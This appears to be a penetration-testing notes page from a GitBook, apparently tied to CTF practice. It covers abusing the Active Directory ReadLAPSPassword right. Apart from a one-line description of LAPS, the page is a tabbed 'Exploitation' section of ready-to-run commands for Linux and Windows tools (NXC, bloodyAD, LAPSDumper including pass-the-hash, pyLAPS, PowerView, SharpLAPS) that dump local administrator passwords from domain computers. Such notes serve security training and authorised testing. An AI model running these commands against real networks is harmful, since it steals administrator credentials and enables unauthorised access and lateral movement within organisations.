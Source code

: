 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ReadLAPSPassword

## Information

LAPS is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account on Windows Server AD-joined devices

<figure><img src="../../../.gitbook/assets/timelapse_laps_priv (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Linux

{% tabs %}
{% tab title="NXC" %}
```bash
# read the password of all computers
nxc ldap <ip> -u <user> -p <pass> -M laps
# read the password of a specific computer
nxc ldap <ip> -u <user> -p <pass> -M laps -o COMPUTER='DC01$'
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```
{% endcode %}
{% endtab %}

{% tab title="LAPSDumper" %}
```bash
# basic usage
python laps.py -u <user> -p <pass> -d <domain>
# PtH on specific LDAP server
python laps.py -u <user> -p <hash> -d <domain> -l <fqdn>
```
{% endtab %}

{% tab title="pyLAPS" %}
{% code overflow="wrap" %}
```bash
# read the password of all computers
pyLAPS.py --action get -u <user> -d <domain> -p <pass> --dc-ip <ip>
# read the password of a specific computer
pyLAPS.py --action get --computer 'DC01$' -u <user> -d <domain> -p <pass> --dc-ip <ip>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of reading the LAPS password with NXC check [Timelapse](../../../boxes/easy/timelapse.md#laps).

### Windows

{% tabs %}
{% tab title="AD PS" %}
{% code overflow="wrap" %}
```powershell
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "DC01" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}

{% tab title="SharpLAPS" %}
```powershell
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="LAPSDumper" %}
{% embed url="https://github.com/n00py/LAPSDumper" %}
{% endtab %}

{% tab title="pyLAPS" %}
{% embed url="https://github.com/p0dalirius/pyLAPS" %}
{% endtab %}

{% tab title="SharpLAPS" %}
{% embed url="https://github.com/swisskyrepo/SharpLAPS" %}
{% endtab %}
{% endtabs %}
